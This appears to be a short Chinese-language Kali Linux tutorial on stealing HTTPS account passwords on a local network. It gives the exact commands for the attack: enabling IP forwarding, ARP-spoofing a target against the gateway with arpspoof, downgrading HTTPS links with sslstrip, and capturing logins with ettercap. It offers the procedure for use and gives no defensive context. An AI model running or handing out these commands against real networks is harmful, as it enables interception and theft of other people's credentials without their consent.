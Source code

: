 # 005.arpspoof+ettercap+sslstrip获取https账号密码
---

攻击者网卡:eth0  
攻击者ip: 192.168.1.2  
目标ip: 192.168.1.3  
网关ip: 192.168.1.1

## **配置ettercap**

```
vim /etc/ettercap/etter.conf
```

![etter.conf](../images/etter.conf.png)

kali 2016.1默认在，177行，将177，178行前面的#去掉。

## **获取账号密码**

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
arpspoof -i eth0 -t 192.168.1.3 192.168.1.1
```

开启一个新的终端

```bash
sslstrip -a -f -k
```

开启一个新的终端

```bash
ettercap -Tq -i eth0
```

> 此时如果192.168.1.3在登录https网站，目标主机就会出现证书错误，如果选择了继续，账号密码就会被<kbd>ettercap</kbd>获取到

注：  
> <kbd>sslstrip</kbd>可以将https链接转换为http连接



















